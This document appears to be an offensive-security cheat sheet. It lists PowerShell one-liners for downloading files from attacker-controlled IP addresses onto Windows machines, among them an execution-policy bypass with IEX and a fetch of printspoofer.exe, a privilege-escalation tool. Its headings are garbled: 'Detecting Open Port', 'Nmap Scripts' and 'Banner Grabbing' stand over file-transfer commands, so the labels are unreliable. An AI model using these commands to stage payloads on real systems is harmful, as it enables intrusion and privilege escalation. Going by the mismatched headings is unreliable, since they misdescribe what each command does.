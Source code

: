 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### Detecting Open Port
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\demo.txt')

**Nmap Scripts**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'c:\temp\1.txt'"

**Banner Grabbing**
	
    $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')

**Banner Grabbing**
	
    iwr -uri http://192.168.45.240/printspoofer.exe -Outfile printspoofer.exe

**Banner Grabbing**
	
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt')

**Banner Grabbing**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"

**Banner Grabbing**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Banner Grabbing**
	
    powershell.exe -c wget "http://10.10.14.17/1.txt" -outfile "c:\temp\1.txt"

**Banner Grabbing**
	
    powershell.exe -c "curl.exe http://192.168.1.143:80/1.txt c:\temp\1.txt"	

**Banner Grabbing**
	
    powershell.exe Invoke-RestMethod -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"

**Banner Grabbing**
	
    powershell.exe Invoke-webRequest -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"

**Banner Grabbing**
	
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://192.168.1.143/1.txt"' >> wget.ps1
    echo '$file = "c:\temp\1.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
